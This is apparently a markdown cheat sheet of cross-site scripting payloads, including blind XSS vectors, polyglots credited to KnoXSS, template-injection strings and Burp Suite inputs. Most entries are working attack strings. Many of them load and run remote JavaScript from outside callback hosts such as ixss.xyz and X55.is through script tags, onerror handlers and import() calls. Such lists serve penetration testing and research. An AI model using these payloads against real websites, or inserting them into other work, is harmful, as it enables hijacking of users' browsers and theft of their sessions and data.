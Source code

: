 ## General Payload Collection:
```bash
"><img src=x onerror=alert(1)>
```
```bash
-->';"><img src=x onerror=import('//ixss.xyz')>//
```
```bash
-->';"><script src=//ixss.xyz></script><x="
```
```bash
"><img/src/onerror=import('//ixss.xyz')>
```
```bash
$.getScript("//ixss.xyz")
```
```bash
{{_openBlock.constructor('import("//ixss.xyz")')()}}{{constructor.constructor('import("//ixss.xyz")')()}}
```
```bash
javascript:import('//ixss.xyz')
```
```bash
javascript:eval('var a=document.createElement(\'script\');a.src=\'//ixss.xyz\';document.body.appendChild(a)')
```
```bash
';"/><h1>test{{7*7}}
```
```bash
HTML<h1>HTML&gt;h1&lt;Test{{7*7}}[[7*7]]
```

## KnoXSS
>Blind XSS Custom Vector - Short Polyglot (HTML & JS Main Cases)
```
'/*\'/*"/*\"/*</Script><Input/AutoFocus/OnFocus=/**/(import(/https:\\X55.is?1=19473/.source))//>
```
>Blind XSS Custom Vector - Full Polyglot (20+ XSS Cases): Best, for non-restricted inputs.

```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\X55.is?1=19473/.source))}//\76-->
```

## Burpsuite Payloads:
```
bxss
```
```
';\"><script src=//ixss.xyz></script><x=\"
```
```
';\"><img src onerror=import('//ixss.xyz')>
```
```
htmli
```
```
\"/><h1>test{{7*7}}[[7*7]]
```
